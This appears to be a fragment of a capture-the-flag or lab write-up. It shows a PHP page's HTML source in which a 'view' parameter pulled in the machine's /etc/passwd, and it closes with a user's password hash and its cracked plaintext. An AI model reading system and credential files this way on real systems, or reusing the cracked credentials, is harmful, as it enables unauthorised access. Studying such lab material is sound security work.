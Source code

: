 ```html
	<link href="https://fonts.googleapis.com/css?family=IBM+Plex+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?view=flower.gif">NO</a>
	    <a href="index.php?view=flower.gif">YES</a>
	</div>
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
</p>    </body>
</html>
```

# Creds: `kamishiro`:`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`:`password123`
